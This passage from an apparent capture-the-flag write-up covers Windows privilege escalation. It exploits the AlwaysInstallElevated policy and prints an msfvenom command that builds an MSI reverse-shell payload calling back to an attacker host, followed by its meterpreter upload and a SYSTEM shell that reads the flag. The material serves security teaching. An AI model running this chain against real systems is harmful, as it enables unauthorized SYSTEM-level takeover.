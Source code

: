 While analyzing the output, it stood out that `AlwaysInstallElevated` was enabled:
```bash
����������͹ Checking AlwaysInstallElevated
�  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated
  AlwaysInstallElevated set to 1 in HKLM!
  AlwaysInstallElevated set to 1 in HKCU!
```

To exploit this, I created an MSI executable using msvenom, which opened a reverse shell to connect back to my machine:
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[attackerip] LPORT=4444 -a x64 --platform Windows -f msi -o shell.msi

meterpreter > upload shell.msi
[*] Uploading  : /home/kali/ctf/cyberlens/shell.msi -> shell.msi
[*] Uploaded 156.00 KiB of 156.00 KiB (100.0%): /home/kali/ctf/cyberlens/shell.msi -> shell.msi
[*] Completed  : /home/kali/ctf/cyberlens/shell.msi -> shell.msi
meterpreter > shell.msi
```

After executing the MSI, I received the reverse shell and successfully retrieve the SYSTEM flag:
```bash
C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type admin.txt
type admin.txt
THM{3[removed]!}
```

solved! :)